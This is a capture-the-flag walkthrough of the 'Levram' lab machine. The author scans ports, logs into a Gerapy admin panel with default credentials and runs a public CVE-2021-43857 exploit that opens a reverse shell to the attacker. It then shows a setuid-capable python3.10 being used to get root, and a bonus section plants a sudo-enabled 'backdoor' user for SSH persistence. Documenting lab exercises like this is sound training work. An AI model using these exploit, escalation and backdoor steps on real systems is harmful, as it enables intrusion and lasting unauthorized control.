


# Levram

### Contents
- [Set-up](#set-up)
- [Discovery](#discovery)
- [Access Flag](#access-flag)
- [Root Flag](#root-flag)
- [Bonus (Persistence via New OS User)](#bonus)

## Set-up

1) Ran a `sudo apt-get update`

2) Added target to `/etc/hosts`

```
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.53.24 target
```

## Discovery

3) Port scanned the target

```
$ nmap -v -p- target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-25 18:36 UTC
Initiating Ping Scan at 18:36
Scanning target (192.168.53.24) [2 ports]
Completed Ping Scan at 18:36, 0.00s elapsed (1 total hosts)
Initiating Connect Scan at 18:36
Scanning target (192.168.53.24) [65535 ports]
Discovered open port 22/tcp on 192.168.53.24
Discovered open port 8000/tcp on 192.168.53.24
Completed Connect Scan at 18:36, 3.04s elapsed (65535 total ports)
Nmap scan report for target (192.168.53.24)
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.11 seconds
```

Found serving SSH on 22/tcp and HTTP on 8000/tcp

4) Service fingerprinting on those 2 ports (with `nmap -v -p 22,8000 -A target`)

We find the additional info: 


```
http-server-header: WSGIServer/0.2 CPython/3.10.6
```
```
http-title: Gerapy
```


5) Quick check on firefox shows us that it is a Gerapy server, google search takes us to the docs: https://github.com/Gerapy/Gerapy

## Access Flag

6) A quick `searchsploit` search of "gerapy" shows us that version 0.9.7 has a RCE exploitable vulnerability. We'll try that in a bit.

```
$ searchsploit gerapy                 
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)                        | python/remote/50640.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

7) Let's enumerate the webserver with `gobuster` first

```
$ gobuster dir -u http://target:8000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target:8000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> /admin/]
Progress: 35779 / 220561 (16.22%)
```

Only at 16% done but we already have a promising path found.

8) Navigating in firefox to `http://target:8000/admin` redirected us to a Django admin interface at `http://target:8000/admin/login/?next=/admin/`



9) Trying possible default creds user=admin, password=admin... lets us in! (For later: we could try fuzzing the login form, we just got lucky here).

10) Noting that we may be able to run arbitrary code on the server here (looks like we can manage scheduled tasks).

11) Using the Django webUI, created a new user `backdoor` with password `hackerman` with all permissions granted (for persistence). Also created an auth token `23bae1643a194ebe78d1dc85d33966c99b6762a5` for the admin user.

12) Tried to define a job to set up a reverse shell but didn't succeed -- doesn't seem to be a way to write code on the UI for the jobs directly. Moving back to the RCE vector we found with searchsploit earlier (in 6).

13) Looks like outside of the admin console (just in http://target:8000/) we can also use admin credentials (admin:admin) to get access to the admin user account in Gerapy. Here we can define projects where it seems we can write arbitrary code... this is promising. We should be able to write code that sets up a reverse shell and calls out to our Kali machine.



14) Inspecting the exploit file `/usr/share/exploitdb/exploits/python/remote/50640.py` we see that it actually logs in on our behalf and defines the project, so we don't need to do it ourselves. Looking at the code we see it also sets up the local listener to catch the reverse shell -- so we don't need to catch it ourselves (e.g. with `nc` or other client).

```
$ python /usr/share/exploitdb/exploits/python/remote/50640.py -t target -p 8000 -L 192.168.49.53 -P 4444
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
Traceback (most recent call last):
  File "/usr/share/exploitdb/exploits/python/remote/50640.py", line 130, in <module>
    exp.exploitation()
  File "/usr/share/exploitdb/exploits/python/remote/50640.py", line 76, in exploitation
    name = dict3[0]['name']
           ~~~~~^^^
IndexError: list index out of range
```

We ran into an error... looking at the code it expects a project to exist... I'll just create one in the UI called 'a' and run it again.

```
$ python /usr/share/exploitdb/exploits/python/remote/50640.py -t target -p 8000 -L 192.168.49.53 -P 4444
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[*] Found project: a
[*] Getting the ID of the project to build the URL
[*] Found ID of the project:  2
[*] Setting up a netcat listener
listening on [any] 4444 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
connect to [192.168.49.53] from (UNKNOWN) [192.168.53.24] 57092
bash: cannot set terminal process group (847): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$ ls
ls
dbs
logs
projects
app@ubuntu:~/gerapy$ echo hello world
echo hello world
hello world
```

Success - we have a shell!

15) Playing in the victim's file system for a while we find a file `/home/app/local.txt` with the flag

```
app@ubuntu:~/gerapy$ pwd
pwd
/home/app/gerapy
app@ubuntu:~/gerapy$ ls -la
ls -la
total 20
drwxr-xr-x 5 app app 4096 Jun 14  2023 .
drwxr-x--- 4 app app 4096 Jun 14  2023 ..
drwxr-xr-x 2 app app 4096 Feb 26 03:35 dbs
drwxr-xr-x 2 app app 4096 Feb 26 04:01 logs
drwxr-xr-x 4 app app 4096 Feb 26 03:35 projects
app@ubuntu:~/gerapy$ cd
cd
app@ubuntu:~$ pwd
pwd
/home/app
app@ubuntu:~$ ls -la
ls -la
total 40
drwxr-x--- 4 app  app  4096 Jun 14  2023 .
drwxr-xr-x 3 root root 4096 Jun 13  2023 ..
lrwxrwxrwx 1 root root    9 Jun 13  2023 .bash_history -> /dev/null
-rw-r--r-- 1 app  app   220 Jun 13  2023 .bash_logout
-rw-r--r-- 1 app  app  3771 Jun 13  2023 .bashrc
drwxr-xr-x 5 app  app  4096 Jun 14  2023 gerapy
-rw-rw-r-- 1 app  app    33 Feb 26 03:30 local.txt
drwxr-xr-x 2 app  app  4096 Aug 15  2023 logs
-rw-r--r-- 1 app  app   807 Jun 13  2023 .profile
-rwxr-xr-x 1 app  app   109 Jun 13  2023 run.sh
-rw------- 1 app  app   818 Jun 13  2023 .viminfo
app@ubuntu:~$ cat local.txt
cat local.txt
92a066fffd77e6c271b16d68d1a3dd48
```

## Root Flag

16) Now we need to get root... Looking at `/etc/passwd` there are only two users with shells:

```
app@ubuntu:~$ cat /etc/passwd
cat /etc/passwd

(... full list omitted)

root:x:0:0:root:/root:/bin/bash
app:x:1000:1000:,,,:/home/app:/bin/bash

```

> of course `su root` fails, we'll probably need to find password hashes in /etc/* and crack them with `john`...


Before we move on - maybe there's something on the box with setuid capabilities that we could use to escalate privileges...

17) In the remote machine as user `app` we run `getcap -r / 2>/dev/null` to get file capabilities recursively (redirecting errors to /dev/null)

```
app@ubuntu:~/gerapy$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/snap/core20/1518/usr/bin/ping cap_net_raw=ep
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep
/usr/bin/ping cap_net_raw=ep
```

Ooooh interesting! python3.10 has setuid. This means we can potentially start a python3.10 process that gets us a root shell...


18) Trying to start a shell as root with python3.10

```
app@ubuntu:~/gerapy$ python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<c 'import os; os.setuid(0); os.system("/bin/bash")'
whoami
root
```

We did it - we are root!

19) We find the root flag in `/root/proof.txt`

```
pwd
/home/app
cd /root
ls -la
total 52
drwx------  6 root root 4096 Feb 26 03:30 .
drwxr-xr-x 19 root root 4096 Jun 15  2022 ..
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Jun 13  2023 .cache
-rw-r--r--  1 root root    8 Jun 14  2023 email3.txt
drwxr-xr-x  3 root root 4096 Jun 16  2022 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Feb 26 03:30 proof.txt
drwx------  3 root root 4096 Jun 14  2023 snap
drwx------  2 root root 4096 Jun 15  2022 .ssh
-rw-------  1 root root 9152 Jun 14  2023 .viminfo
cat proof.txt
18bbbcbb4d3bad4eff17a9c199adcacf
```

## Bonus

20) We'll set-up a new linux user for persistence via the open SSH service

- We add a new user called `backdoor` (`-m` just creates a homedir for it, optional) with `sudo useradd -m backdoor`
- We set a password `hackerman` for the new user with `sudo passwd backdoor` (and type the password)
- We add the `backdoor` user to the `sudo` group with `sudo usermod -aG sudo backdoor`

```
sudo useradd -m backdoor
sudo passwd backdoor
New password: hackerman
Retype new password: hackerman
passwd: password updated successfully
sudo usermod -aG sudo backdoor
```

- We make sure the ssh server config allows password access by checking the `/etc/ssh/sshd_config`

```
sudo cat /etc/ssh/sshd_config | grep Password
#PasswordAuthentication yes
#PermitEmptyPasswords no
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication, then enable this but set PasswordAuthentication
PasswordAuthentication yes
```

Looks like its enabled. Let's restart the ssh server (and make sure it restarted).

```
sudo systemctl restart ssh
sudo systemctl status ssh
? ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-02-26 04:15:27 CST; 4s ago
       Docs: man:sshd(8)
             man:sshd_config(5)
    Process: 1857 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
   Main PID: 1858 (sshd)
      Tasks: 1 (limit: 2234)
     Memory: 1.7M
        CPU: 16ms
     CGroup: /system.slice/ssh.service
             ??1858 "sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"

Feb 26 04:15:27 ubuntu systemd[1]: Starting OpenBSD Secure Shell server...
Feb 26 04:15:27 ubuntu sshd[1858]: Server listening on 0.0.0.0 port 22.
Feb 26 04:15:27 ubuntu sshd[1858]: Server listening on :: port 22.
Feb 26 04:15:27 ubuntu systemd[1]: Started OpenBSD Secure Shell server.
```

Now we test our backdoor from the Kali machine:

```
???(kali?kali)-[~]
??$ ssh backdoor@target
The authenticity of host 'target (192.168.53.24)' can't be established.
ED25519 key fingerprint is SHA256:EcFUQ3abooLm3ZmBChJ1yx8VqJ5nj/Htk22+PfBdxUo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
backdoor@target's password: 
Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Feb 25 08:16:35 PM UTC 2024

  System load:  0.080078125       Processes:               220
  Usage of /:   62.9% of 9.75GB   Users logged in:         0
  Memory usage: 30%               IPv4 address for ens160: 192.168.53.24
  Swap usage:   0%


91 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ whoami
backdoor
$ sudo whoami
[sudo] password for backdoor: 
root
```

Success!


